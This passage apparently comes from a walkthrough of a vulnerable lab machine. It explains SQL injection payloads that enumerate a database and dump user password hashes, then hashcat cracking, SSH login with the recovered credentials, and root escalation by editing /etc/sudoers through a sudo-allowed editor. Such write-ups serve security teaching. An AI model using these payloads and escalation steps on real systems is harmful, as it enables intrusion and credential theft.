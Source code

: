 5.  **SQL Injection in the Gallery:**

    *   **Manual SQL Injection:**  This is the core of the successful attack. Website analysis identifies the `id` parameter in the gallery's URL as vulnerable.
    *   **Testing for Injection:**  Injecting a single quote (`'`) causes a SQL error, confirming the vulnerability. This is a classic SQL injection test.
    *   **Finding the Number of Columns:**  `-1 union select 1,2,3,4,5,6` This uses the `UNION` operator to combine the results of the original query with a crafted query.  The number of columns must match for `UNION` to work. The `-1` ensures the original query returns no results, making the injected data visible.
    *   **Identifying Vulnerable Columns:**  The output shows that columns 2 and 3 are vulnerable (they display the injected numbers).
    *   **Determining the Database Version:** `-1 union select 1,@@version,3,4,5,6`  `@@version` is a MySQL variable that returns the database version (5.0.51a).
    *   **Enumerating Tables:** `-1 union select 1,group_concat(table_name),3,4,5,6 from information_schema.tables where table_schema=database()--`
        *   `information_schema`:  A database that contains metadata about all other databases.
        *   `table_schema=database()`:  Filters the results to the current database.
        *   `group_concat(table_name)`:  Combines all table names into a single string.
        *   `--`:  A SQL comment, used to comment out the rest of the original query.
    *   **Enumerating Columns:** `-1 union select 1,group_concat(column_name),3,4,5,6 FROM information_schema.columns WHERE table_name=CHAR(100, 101, 118, 95, 97, 99, 99, 111, 117, 110, 116, 115)--`
        *   `CHAR()`:  Converts ASCII codes to characters (used to obfuscate the table name `dev_accounts`).
    *   **Extracting Data:** `-1 union select 1,group_concat(username,0x3a,password),3,4,5,6 FROM dev_accounts--`
        *   `0x3a`:  Hexadecimal representation of a colon (`:`), used as a separator.
        *   This query retrieves the usernames and (hashed) passwords.

6.  **Password Cracking:**

    *   `hashcat -m 0 hashes.txt /usr/share/wordlists/rockyou.txt`:  `hashcat` is a powerful password cracking tool.
        *   `-m 0`:  Specifies the hash type (MD5 in this case).
        *   `hashes.txt`:  The file containing the extracted hashes.
        *   `/usr/share/wordlists/rockyou.txt`:  A common wordlist used for cracking.
    *   The cracked passwords are "starwars" and "Mast3r".

7.  **SSH Login:**

    *   `ssh loneferret@192.168.1.13`:  We successfully logged in using the cracked credentials for the `loneferret` user.

8.  **Privilege Escalation:**

    *   **Reconnaissance:**  `ls` and `cat CompanyPolicy.README` reveal a clue about a custom editing tool (`ht`) and a company policy.
    *   `sudo -l`:  Lists the commands the current user can run with `sudo`.  This shows that `loneferret` can run `/usr/local/bin/ht` as root without a password.
    *   **Exploiting `ht`:**  The `ht` editor is vulnerable to a command injection. By editing `/etc/sudoers` and adding `/bin/sh` after `/usr/local/bin/ht`, we are granted the ability to run a shell as root.
        *   `export TERM=xterm-color`:  This sets the terminal type, which might be necessary for `ht` to function correctly.
        *   `sudo ht /etc/sudoers`: Opens the sudoers file with the vulnerable editor.
        *   The modification adds `, /bin/sh` to the `loneferret` sudoers entry.
    *   `sudo /bin/sh`:  Executes a shell as root.
    *   `whoami`:  Confirms root access.
